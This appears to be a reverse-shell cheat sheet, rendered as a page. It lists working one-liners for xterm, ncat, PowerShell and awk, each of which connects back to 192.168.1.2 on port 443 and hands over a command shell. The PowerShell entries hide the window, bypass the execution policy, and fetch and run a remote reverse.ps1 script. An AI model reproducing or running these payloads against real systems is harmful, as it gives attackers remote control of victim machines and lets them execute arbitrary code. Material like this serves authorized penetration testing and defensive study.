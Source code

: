 
## Xterm

```
xterm -display 192.168.1.2:443

```

---

## Ncat

```
ncat 192.168.1.2 443 -e /bin/bash

```

---

## Powershell

```
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("192.168.1.2",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.1.2',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

powershell IEX (New-Object Net.WebClient).DownloadString('<http://192.168.1.2:8000/reverse.ps1>')

```

---

## Awk

```
awk 'BEGIN {s = "/inet/tcp/0/192.168.1.2/443"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null

```

---
